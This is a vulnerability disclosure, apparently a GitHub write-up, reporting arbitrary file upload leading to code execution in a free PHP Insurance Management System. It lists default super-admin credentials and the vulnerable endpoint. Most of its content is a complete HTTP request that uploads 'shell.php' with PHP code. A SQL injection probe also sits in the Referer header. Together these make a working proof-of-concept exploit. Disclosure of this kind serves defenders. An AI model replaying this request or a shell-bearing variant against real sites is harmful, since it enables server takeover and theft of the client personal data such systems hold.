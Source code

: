 # Insurance Management System v1.0 by oretnom23 has arbitrary code execution (RCE)

Login account: ahmed/12345 (Super Admin account)

vendor: https://itsourcecode.com/free-projects/php-project/insurance-management-system-project-in-php-free-download/

Vulnerability url: http://ip/insurance/editClient.php?client_id=1511986129;http://ip/insurance/updateClient.php

Vulnerability file:\ insurance\ updateClient.php

Loophole location： Arbitrary file upload vulnerability exists in Website Cover upload point in system info (RCE)

Request package for file upload：

```sql
POST /insurance/updateClient.php HTTP/1.1
Host: 192.168.1.19
Content-Length: 1460
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.19
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryueZa8WTcFxYpFdQj
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.19/insurance/editClient.php?client_id=1511986129%27%20and%20length(database())%20=4%20--+
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=nur494rnipq7uvtdrinjesc2ja
Connection: close

------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="fileToUpload"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="client_id"

1511986129
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="client_password"

123
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="name"

Aemon Task
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="sex"

Male
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="birth_date"

10-09-1970
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="marital_status"

Married
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="nid"

46814518451
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="phone"

54189465100
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="address"

Dhaka
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="policy_id"

1
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="agent_id"

555
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="submit"

UPDATE
------WebKitFormBoundaryueZa8WTcFxYpFdQj--
```

The files will be uploaded to this directory \insurance\uploads\

![image](https://user-images.githubusercontent.com/54017627/166144182-596c7e4f-9347-4219-9b6f-15730b562968.png)


We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/166144158-92de3642-3dcb-4f12-afb3-4cf8c236ce21.png)
